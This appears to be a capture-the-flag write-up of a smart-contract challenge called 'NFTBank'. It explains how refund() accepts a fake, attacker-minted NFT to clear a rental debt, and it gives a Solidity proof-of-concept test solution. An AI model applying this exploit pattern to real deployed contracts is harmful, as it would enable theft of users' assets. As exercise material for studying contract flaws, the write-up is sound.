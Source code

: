 # NFTBank

## Description

`refund()` function lacks the check if anyone is adding a fake NFT.
 
An Attacker can create a fake NFT contract and call the `refund` with the new NFT deails which clear out his debt.

Attack Steps:

1. Attackers creates the newNFT and mint 1 token for himself

2. Attckers then approves the bank to rent.

3. Attackers then call the `refund()` funciton with it's collection and id of new NFT he just created.

In refund function, this for loop received the wrong address and id, the default valueu of `rentedNFTs` be 0, which is of `CryptoKitties`

```
for (uint i; i < rentNFTs.length; i++) {
            if (rentNFTs[i].collection == collection && rentNFTs[i].id == id) {
                rentedNft = rentNFTs[i];
            }
        }
```



---

## POC:

In the test solution.

```solidity

// NOTE - add this at the after  CryptoKitties contract
contract CryptoDoggies is ERC721("CryptoDoggies", "DOG"), Ownable {
    function mint(address to, uint id) external onlyOwner {
        _safeMint(to, id);
    }
}

        //solution  

        CryptoDoggies dog;
        dog = new CryptoDoggies(); // Created a new instance of Attacker's fake NFT

        dog.mint(attacker, 2); // Attacke's mint 1 NFT
        dog.approve(address(bank), 2); //Attackers permites the bank to transact on behalf of him

        bank.refund(address(dog), 2); //Attacker calling for the refund
        // now attack cleared his debt and also holding the NFT
```